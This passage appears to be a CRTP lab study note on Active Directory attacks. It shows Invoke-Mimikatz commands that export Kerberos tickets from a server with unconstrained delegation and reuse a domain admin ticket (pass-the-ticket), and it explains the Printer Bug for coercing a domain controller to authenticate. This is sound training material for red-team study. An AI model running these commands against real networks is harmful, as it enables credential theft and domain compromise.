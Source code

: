 Compromise the server(s) where Unconstrained delegation is enabled.

- We must trick or wait for a domain admin to connect a service on appsrv.

Now, if the command is run again:
´´´powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
´´´

The DA token could be reused:
´´´powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
´´´


## Printer Bug

- How do we trick a high privilege user to connect to a machine with Unconstrained Delegation? The Printer Bug!
- A feature of MS-RPRN which allows any domain user (Authenticated User) can force any machine (**running the Spooler service**) to connect to second a machine of the domain user's choice.
- We can force the dcorp-dc to connect to dcorp-appsrv by abusing the Printer bug.

![Alt text](/assets/images/posts/crtp/18.png){: .align-center}
